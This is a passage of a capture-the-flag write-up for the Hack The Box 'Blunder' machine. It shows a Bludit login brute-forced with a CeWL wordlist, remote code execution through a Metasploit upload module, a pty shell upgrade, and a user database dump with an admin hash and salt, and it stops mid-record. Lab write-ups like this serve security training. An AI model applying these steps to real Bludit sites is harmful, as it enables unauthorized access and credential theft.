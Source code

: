 ```
bl-themes/hyperspace
bl-themes/striped
bl-themes/log
bl-themes/micro
bl-themes/tagg
bl-themes/future-imperfect
```

__install.php__
```Console
╰─❯ curl http://blunder.htb/install.php
Bludit is already installed ;)
```

Brute-forcing the login using a password list created in [CeWL](https://github.com/digininja/CeWL)
 * see `passwords.txt` in `/files`
 * use login "fergus" based on `todo.txt`

Used python script in [this blog post](https://blog.void.yt/HTB/Easy/47.html)
 * edit the host to the IP address
 * edit username to "fergus"
 * run `cat password.txt | wc -l`, should have 350 words.
 * Update the range in the script to 350 words in the `for` loop

Found password
User: fergus
Password: RolandDeschain
[Someone is a Stephen King fan. Roland Deschain is the main character in the Dark Tower series]

### User
1. Open `msfconsole` and use the exploit: `linux/http/bludit_upload_images_exec`
2. Run exploit. Should open meterpreter session as user `www-data`
3. I dropped into a shell and used `python3 -c "import pty; pty.spawn('/bin/bash')"` to start an interactive shell because I hate meterpreter in Linux.
4. Dig around the file directories that `www-data` has access to.

Found `/var/www/bludit-3.9.2/bl-content/databases`

```json
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
```